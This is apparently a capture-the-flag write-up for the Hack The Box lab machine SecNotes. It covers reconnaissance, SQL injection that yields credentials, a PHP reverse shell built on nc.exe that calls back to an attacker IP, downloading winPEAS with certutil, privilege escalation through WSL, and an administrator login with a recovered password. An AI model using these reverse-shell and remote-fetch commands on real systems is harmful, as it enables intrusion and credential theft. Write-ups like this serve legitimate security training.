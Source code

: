 ```yaml
---
title: "SecNotes - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - SecNotes
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## SecNotes
![](https://kar0nx.github.io/assets/images/writeup/50c8eaf2cd0fe953a71141b06bd88817.webp)

## Reconnaissance

IP: 10.10.10.97
### NMAP

```
nmap -T4 -A -p- 10.10.10.97
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 10:41 EST
Nmap scan report for 10.10.10.97
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h39m31s, deviation: 4h37m09s, median: -29s                                                         
| smb2-security-mode:                                                                                                   
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-07T15:43:25
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-03-07T07:43:24-08:00

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.27 ms 10.10.14.1
2   31.64 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.43 seconds
```

Nmap scan shows 3 open ports 80 - http, 445 - smb, 8808 - http
## Website

### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307164355.png)

Login page, I tried to create account and find something on usefull on site:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307164446.png)

and we have probably admin email

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307164522.png)

site is vulnerable to xss but I also find sql injection in registration, what led me to credentials, doesn't work on site, so let's try it in smb  

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307172304.png)

## SMB

```
smbclient \\\\10.10.10.97\\new-site -U tyler
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307173124.png)

## Port 8808

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307173103.png)

Default IIS Windows page

## Gaining access

First I copy nc.exe from system's resources directory and then upload it to target system

```
cp /usr/share/windows-resources/binaries/nc.exe .
```

in smbclient:

```
put nc.exe
```

Next I create PHP reverse shell payload

```
<?php
system('nc.exe -e cmd.exe 10.10.14.15 1337')
?>
```

set up the listener

```
nc -nvlp 1337
```

Then we need to trigger payload by navigating to:

```
http://10.10.10.97:8808/rev.php
```

We have lol-level shell,  let's grab first flag 

```
type c:\users\tyler\desktop\user.txt
```

## Privilege Escalation

Open python http server in winpeas directory:

```
python3 http.server 80
```

And download it on target machine

```
certutil -urlcache -f http://10.10.14.15/winPEASany.exe win.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307174728.png)

I attempt to search for the bash.exe executable on the target system to check if Windows Subsystem for Linux (WSL) is available for exploitation:

```
c:\>where /R c:\windows bash.exe
	where /R c:\windows bash.exe
	c:\Windows\WinSxS\amd64_microsoft-windows-lxss-
bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Use this guide
https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307175411.png)

And we have root privilege let's spawn TTY shell with simple python 

```
python -c "import pty;pty.spawn('/bin/bash')"
```

To upgrade our shell let's enumerate linux, history shows everything here:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307180010.png)

Copy smbclient login and change ip:

```
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

Navigate to:

```
cd \users\administrator\desktop\
get root.txt
```

And grab root flag
We can also connect via psexec.py to get full shell

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307180837.png)